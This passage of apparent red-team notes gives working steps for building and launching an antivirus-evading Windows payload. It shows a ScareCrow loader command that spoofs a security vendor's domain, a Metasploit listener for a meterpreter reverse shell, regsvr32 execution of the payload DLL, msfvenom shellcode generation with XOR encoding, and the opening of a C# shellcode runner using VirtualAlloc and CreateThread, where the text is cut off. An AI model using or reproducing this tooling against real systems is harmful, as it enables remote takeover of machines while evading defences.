 #### Run with scarecrow
```
ScareCrow -Loader dll -domain trendmicro.com -I shellcode.bin
```

#### Start listener
```
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; set ExitOnSession false; exploit -j -z'
```

#### Run payload
```
regsvr32.exe C:\Windows\Tasks\urlmon.dll
```

## Extra Xorred meterpreter DLL
- https://crypt0jan.medium.com/red-team-tutorials-4-616c565ccec9

#### Generate payload
- Save the payload size (byts). You need it later
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 --encoder x64/xor_dynamic -i 11 -f csharp > shellcode.txt
```

#### Xor payload
- https://github.com/crypt0jan/XORencoder
- ```git clone https://github.com/crypt0jan/XORencoder```
- Open the project in Visual Studio.
- Edit file ```Project.cs```, replacing the buf with your payload from Step 1
- At the top change Debug to Release and click Build XOR_encoder.
- Open the project directory ```\XORencoder\bin\Release\netcoreapp3.1\``` and run ```.\XOR_encoder.exe```
- Copy the new shellcode

#### Creating C# DLL
- Git clone https://github.com/crypt0jan/ClassLibrary1
- Paste the code from below over the code in ```Class1.cs```, to change some names.
- Edit line 39 and add the amount of bytes ```byte[] buf = new byte[1072]```
- Add the xorred shellcode.
- At the top change Debug to Release and click "Start"
- You will get an error popup but the build should succeed!

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace RunMe
{
    public class RunMeClass
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
```
